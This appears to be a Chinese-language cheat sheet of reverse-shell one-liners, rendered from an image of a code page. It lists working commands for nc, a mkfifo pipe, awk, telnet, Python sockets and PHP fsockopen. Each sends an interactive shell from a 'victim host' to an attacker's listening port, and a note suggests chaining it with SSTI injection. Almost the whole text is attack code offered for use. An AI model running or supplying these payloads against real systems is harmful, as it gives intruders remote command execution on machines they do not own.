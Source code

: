 #### NC反弹

```
#nc 如果安装了正确的版本（存在-e 选项就能直接反弹shell）
nc -e /bin/sh ip port

#受害主机:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 8080 > /tmp/f

#攻击主机先监听8080端口:
nc -lvvp 8080

#类似的命令
mknod backpipe p;nc ip prot 0<backpipe | /bin/bash 1>backpipe 2>backpipe
```

#### Awk

**注意:**攻击的机器监听，在收到shell的时候不可以只输入enter，不然会断开

```
awk 'BEGIN{s="/inet/tcp/0/ip/port";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

#### Telnet反弹

```
受害主机:
telnet 192.168.3.251 8080 | /bin/bash | telnet 192.168.3.251 1080
攻击主机:
nc -lvp 1080 
nc -lvp 8080 //这里输入命令可以在1080看到结果

受害机器:
mknod test p && telnet ip  port 0<test | /bin/bash 1>test
攻击：
nc  -lvvp 8080
top命令看不到结果，因为不是tty
```

#### python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#还可以配合ssti注入执行bash反弹
```

#### php

```
php -r '$sock=fsockopen("ip",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```
